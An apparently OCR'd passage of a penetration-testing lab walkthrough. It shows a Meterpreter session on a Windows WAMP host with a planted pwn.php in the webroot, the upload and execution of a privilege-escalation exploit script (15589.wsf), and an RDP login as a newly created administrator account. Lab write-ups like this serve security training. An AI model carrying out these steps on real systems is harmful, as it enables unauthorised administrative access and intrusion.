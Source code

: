 ```bash

Let’s upload the exploit using our meterpreter session and then execute it on the target.

meterpreter > ls
Listing: C:\wamp\www
====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  161   fil   2011-11-08 15:58:11 +0000  .htaccess
100666/rw-rw-rw-  45    fil   2011-11-08 15:53:09 +0000  .htpasswd
100666/rw-rw-rw-  76    fil   2011-11-08 15:45:29 +0000  index.php
100666/rw-rw-rw-  1113  fil   2020-12-27 18:08:12 +0000  pwn.php

meterpreter > upload 15589.wsf /Users/apache/Desktop/
[*] uploading  : 15589.wsf -> /Users/apache/Desktop/
[*] uploaded   : 15589.wsf -> /Users/apache/Desktop/\15589.wsf
meterpreter > execute -f cscript -a C:/Users/apache/Desktop/15589.wsf
Process 2868 created.
meterpreter >

After the exploit has completed, we can connect to remote desktop with test123:test123.

kali@kali:~$ rdesktop 192.168.68.46 -u test123 -p test123
Autoselecting keyboard map 'en-us' from locale

ATTENTION! The server uses and invalid security certificate which can not be trusted for
the following identified reasons(s);

 1. Certificate issuer is not trusted by this system.

     Issuer: CN=LIVDA

 2. Certificate has expired.

     Valid to: Tue Sep 22 12:57:25 2020



Review the following certificate info before you trust it to be added as an exception.
If you do not trust the certificate the connection atempt will be aborted:

    Subject: CN=LIVDA
     Issuer: CN=LIVDA
 Valid From: Mon Mar 23 12:57:25 2020
         To: Tue Sep 22 12:57:25 2020

  Certificate fingerprints:

       sha1: 92f40781ed691eb1f4a5463fa1c7a36661dce8a0
     sha256: 3556cd6b7171d75fa2a737ceca4a69ba77583af6177683dbe099ad3dded93aa5


Do you trust this certificate (yes/no)? yes
Connection established using SSL.
Protocol(warning): process_pdu_logon(), Unhandled login infotype 1

If everything worked as expected, we have access to the system as a local administrator.
```
